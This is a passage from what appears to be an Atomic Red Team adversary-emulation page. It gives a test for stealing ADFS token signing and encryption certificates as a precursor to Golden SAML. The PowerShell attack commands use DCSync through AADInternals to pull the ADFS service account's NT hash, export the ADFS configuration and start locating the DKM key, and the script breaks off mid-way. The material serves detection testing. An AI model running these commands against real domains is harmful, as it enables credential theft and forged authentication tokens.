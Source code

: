 ```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AADInternals -Force
```

<br/>
<br/>

## Atomic Test #10 - ADFS token signing and encryption certificates theft - Remote

Retrieve ADFS token signing and encrypting certificates. This is a precursor to the Golden SAML attack (T1606.002). You must be signed in as a Domain Administrators user on a domain-joined computer.
Based on https://o365blog.com/post/adfs/ and https://github.com/fireeye/ADFSDump.

**Supported Platforms:** Windows

**auto_generated_guid:** cab413d8-9e4a-4b8d-9b84-c985bd73a442

#### Inputs:

| Name                      | Description                                                                     | Type   | Default Value        |
| ------------------------- | ------------------------------------------------------------------------------- | ------ | -------------------- |
| adfs_service_account_name | Name of the ADFS service account                                                | string | adfs_svc             |
| replication_user          | Username with replication rights. It can be the Domain Admin running the script | string | Administrator        |
| replication_password      | Password of replication_username                                                | string | ReallyStrongPassword |
| adfs_server_name          | Name of an ADFS server                                                          | string | sts.contoso.com      |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module ActiveDirectory -Force
Import-Module AADInternals -Force | Out-Null
#Get Configuration
$dcServerName = (Get-ADDomainController).HostName
$svc = Get-ADObject -filter * -Properties objectguid,objectsid | Where-Object name -eq "#{adfs_service_account_name}"
$PWord = ConvertTo-SecureString -String "#{replication_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList #{replication_user}, $PWord
# use DCSync to fetch the ADFS service account's NT hash
$hash = Get-AADIntADUserNTHash -ObjectGuid $svc.ObjectGuid -Credentials $Credential -Server $dcServerName -AsHex
$ADFSConfig = Export-AADIntADFSConfiguration -Hash $hash -SID $svc.Objectsid.Value -Server #{adfs_server_name}
# Get certificates decryption key
$Configuration = [xml]$ADFSConfig
$group = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $Configuration.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$ADSearch.PropertiesToLoad.Clear()
$ADSearch.PropertiesToLoad.Add("displayName") | Out-Null
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"]
$ADSearch.PropertiesToLoad.Clear()
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
```
